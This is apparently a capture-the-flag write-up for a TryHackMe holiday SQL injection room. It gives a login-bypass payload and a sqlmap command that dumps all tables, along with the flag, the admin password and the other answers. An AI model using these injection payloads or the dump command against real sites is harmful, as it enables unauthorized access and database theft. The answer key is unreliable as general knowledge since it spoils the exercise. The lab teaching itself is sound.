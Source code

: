 ```yaml
---
description: Web Exploitation ; sql injection ; sqli ; sqlmap
---
```


# Someone stole Santa's gift list!

## Video

{% embed url="https://www.youtube.com/watch?v=Kitx7cSNsuE" %}

## Resources

List of SQL Commands: [https://www.codecademy.com/articles/sql-commands](https://www.codecademy.com/articles/sql-commands)

Check out this cheat sheet: [swisskyrepo/PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection)

Payload list: [payloadbox/sql-injection-payload-list](https://github.com/payloadbox/sql-injection-payload-list)

In-depth SQL Injection tutorial: [SQLi Basics](https://tryhackme.com/room/sqlibasics)

[SQLMAP cheatsheet](https://www.security-sleuth.com/sleuth-blog/2017/1/3/sqlmap-cheat-sheet)

## Challenge

![](<../.gitbook/assets/image (31).png>)

### Without using directory brute forcing, what's Santa's secret login panel?

![](<../.gitbook/assets/image (32).png>)

{% hint style="success" %}
/santapanel
{% endhint %}

### Visit Santa's secret login panel and bypass the login using SQLi

![](<../.gitbook/assets/image (33).png>)

`Username` `'or true --`

`Password` `'--`

![](<../.gitbook/assets/image (34).png>)

{% hint style="success" %}
No answer needed
{% endhint %}

### How many entries are there in the gift database?

![](<../.gitbook/assets/image (35).png>)

**`Save Item`**

`sqlmap -r santapanel.req --tamper=space2comment --dump-all -dbms sqlite`

![](<../.gitbook/assets/image (36).png>)

![](<../.gitbook/assets/image (37).png>)

{% hint style="success" %}
22
{% endhint %}

### What did Paul ask for?

![](<../.gitbook/assets/image (38).png>)

{% hint style="success" %}
Github Ownership
{% endhint %}

### What is the flag?

![](<../.gitbook/assets/image (39).png>)

{% hint style="success" %}
thmfox{All\_I\_Want\_for\_Christmas\_Is\_You}
{% endhint %}

### What is admin's password?

![](<../.gitbook/assets/image (40).png>)

{% hint style="success" %}
EhCNSWzzFP6sc7gB
{% endhint %}
